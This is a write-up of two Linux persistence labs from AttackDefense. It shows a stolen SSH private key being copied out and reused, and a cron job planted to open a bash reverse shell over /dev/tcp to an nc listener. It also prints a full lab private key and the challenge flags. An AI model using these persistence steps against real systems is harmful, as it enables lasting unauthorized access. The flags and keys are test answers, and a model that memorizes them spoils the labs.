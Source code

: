 # 🔬Linux Persistence

## Lab 1 - SSH

> 🔬 [Maintaining access I](https://www.attackdefense.com/challengedetails?cid=954)
>
> - Target IP: `192.3.140.3`
> - **Persistence** via **SSH Keys**, even after user credentials are modified
> - Initial credentials: `student `:`password `

```bash
ip -br -c a
	192.3.140.2/24
```

```bash
ssh student@192.3.140.3
```

### SSH Keys

```bash
ls -al
    drwxr-xr-x 1 student student 4096 Apr 29 13:40 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    -rw------- 1 student student    7 Apr 29 13:40 .bash_history
    drwx------ 2 student student 4096 Apr 29 13:39 .cache
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 .ssh
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait

cat wait
    Delete this file to trigger connection reset.
    Delete it only after planting the backdoor.

cd .ssh
ls
	authorized_keys  id_rsa
```

- Show the **private key** inside `id_rsa`

```bash
cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3JH1zC1WJuJ2KCPf1UdJe1dX+Uh4aE9RKsnuQk124eOB601/
8+Q6uJej38goVYQ7Dc4INK9Pq9cOs+uDQfRdjS1/9S7a0bDVORR6Q/E3dya0RDsz
LcaqX6LkPgnBZ2gS37E4mX6kiwEvYeqaAGyFqyfn+QPLos/Znc3EA4A71LPFg01b
AmpI6Gbaa7UUG+MCZoM0qDNo5Mzr5bmtCnVOKQ6n0Qx7znu5A2p00TfzmAo7erZ8
6xJUfXQoVFzqmINqhZKFZtjgV5nk/qHgn1BPyd6NoWeXADdIJKi7iq4jomT+Ny+/
HlxrAs1IJhxtrSExSMTkqmH/3KeX9ibBWXzY1QIDAQABAoIBAEO0liOvgvN6rlRR
9sJMGJVA0WNWyIcUWdDtnTJC/wwFvvqQlocx9oh1G7t0gFUHuuzY4pHxgl44LG40
C91x+kl8vvtu/4JAaqMT0xgJ8kGj4s/S8DnL8r5ajP8yFWj9fFWn27zaL/3vRjEj
R1R7+2f3XvCEJrz6Wk1jPRjqAvOeDRGH3ojsQwWO7k/FcvtqVBCPTGxyUBzXYv06
fM3OY5NL8D7t/bLoHa8dVhqjPnfUR7/IpiAdxEam1X0ObPB5YyBwSlpj6h904bF/
+U697IE23xjVmKMKcvTLe6QAxuRGSMf3/k3rCpDd3UxYF+P2e0CK3MefWjKpAe8r
2xRXyB0CgYEA+7zgmuhJqjik8tbt6b6+ZAJZ68TqLE1f3YEW/LivMeMj5tQZo/w+
0ZJnr6hR3eicMMxWKufGXSEtbs1TzMGvA5SXI9MTu62a5A2h7NDbLuKRwdjh9Qv6
TocFSMTSFcS4jvmbeYlVaSZWrJLLKY6lsjgdjDB4DH7Uc0Anxdr//GsCgYEA4E39
rlB7GWoCX7oXpSEGCHkQkmgX5IDU7+UUySFqD8fWoLsAc47R/TmDsKI+x83PF5jG
oo5P5LmUIeqnAKknTSyfD1YFtMa3tpTE68R9j/uueTK7v5izwWQjicmILm4RdkZJ
TVVH2b0aIQaUnpWWwHLa+BYx2jH4S2GxH89vz78CgYEA211SyApFLw0fR/Hc7kRm
OlYGL7qvaR2fvTDhbCYvnKRXQ61uDoUf5JXUvrBJbrtlZ+yX5dmE9OCVa6mHLbVV
oiQYtIIZ/wCgKbxrbybs6OVMqIQrGtNuMoHcK/Y/L/L19Lk0L2tqPy/GdamRWkxQ
vYXC0cfmxNS8oxWz0uktCrMCgYB6ufF9OMfBxgD6g4WAciss46CvmojIG71mbL8M
tV2kuMC0PN0oXRKELL3jHUKga/lNfefg9WC9UtS8IfmyINtCHJIDABwrJzdJjOiZ
326cIyb5ZUrYsCJaRAI117DNRqgDQL3GtEyV1CPBwin7Avny3mT0rKAmNIUYKaGS
OBuDXQKBgQDIRYOZEaV8rXx3wN24NYuByNUpRM3AIyPIwAuaPklWD6D2KdDveheI
lZtRb6Yzzmeon0DuLPdl7e/R7e5Z8Mx3o40aiJLULlw95JqON3J3W471PZAG1L/g
59PKgUMBNVX9UsUqvHyWlcY/FAT9UhWblgDoN3uXY9Db6q5x7hWzKw==
-----END RSA PRIVATE KEY-----
```

- Check the [`authorized_keys`](https://www.ssh.com/academy/ssh/authorized-keys-file) file too

```bash
cat authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDckfXMLVYm4nYoI9/VR0l7V1f5SHhoT1Eqye5CTXbh44HrTX/z5Dq4l6PfyChVhDsNzgg0r0+r1w6z64NB9F2NLX/1LtrRsNU5FHpD8Td3JrREOzMtxqpfouQ+CcFnaBLfsTiZfqSLAS9h6poAbIWrJ+f5A8uiz9mdzcQDgDvUs8WDTVsCakjoZtprtRQb4wJmgzSoM2jkzOvlua0KdU4pDqfRDHvOe7kDanTRN/OYCjt6tnzrElR9dChUXOqYg2qFkoVm2OBXmeT+oeCfUE/J3o2hZ5cAN0gkqLuKriOiZP43L78eXGsCzUgmHG2tITFIxOSqYf/cp5f2JsFZfNjV root@localhost
```

### Persistence

- Exit the `SSH` session and download the `id_rsa` file

```bash
scp student@192.3.140.3:~/.ssh/id_rsa .
chmod 400 id_rsa
```

- Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.3.140.3
rm wait
# Old student's password do not work anymore
```

- Connect to the target using the downloaded private key

```bash
ssh -i id_rsa student@192.3.140.3
```



<details>
<summary>Reveal Flag: 🚩</summary>



`689227a4f1b97afe1ff5ebaf85babc19`

![](assets/image-20230429155121140.png)

</details>



> 📌 Instead of using a user's private key, typically the attacker generates an SSH key pair on his system, keeps the private key on his system, transfers the public key onto the target system user's home `.ssh` directory and adds it in the `authorized_keys` file.
>
> - [SSH Penetration Testing](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)

------

## Lab 2 - Cron Jobs

> 🔬 [T1168: Local Job Scheduling](https://www.attackdefense.com/challengedetails?cid=1553)
>
> - Target IP: `192.175.36.3`
> - **Persistence** via **Cron Jobs**
> - Initial credentials: `student `:`password `
> - 🔬 Check the [Cron Jobs Linux attacks Lab here](../1-system-attack/linux-attacks/cron.md)

- [Scheduled Task/Job - MITRE ATT&CK](https://attack.mitre.org/techniques/T1053/)
- [crontab.guru](https://crontab.guru/)

![](assets/image-20230429160832734.png)

```bash
ip -br -c a
	192.175.36.2/24
```

```bash
ssh student@192.175.36.3
```

### Cron Jobs

```bash
ls -al
    drwxr-xr-x 1 student student 4096 Apr 29 14:04 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    -rw------- 1 student student   18 Apr 29 14:04 .bash_history
    drwx------ 2 student student 4096 Apr 29 14:04 .cache
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait

cat wait
    Delete this file to trigger connection reset.
    Delete it only after planting the backdoor.
```

```bash
cat /etc/cron*
```

![](assets/image-20230429161108392.png)

### Persistence

- Create a **new Cron job** as the `student` user
  - The command inside the cron job will be executed with the `student`'s permissions'

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.175.36.2/1234 0>&1'" > cron

crontab -i cron
crontab -l
```

![](assets/image-20230429161420696.png)

- Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.175.36.3
rm wait
# Old student's password do not work anymore
```

- Setup a `nc` listener and wait for the `bash reverse shell` from the cron job **that runs every minute**

```bash
nc -nvlp 1234
```

![](assets/image-20230429162413607.png)



<details>
<summary>Reveal Flag: 🚩</summary>



`79969e32981f722464fde4ce7f208883`

![](assets/image-20230429162434591.png)

</details>

------

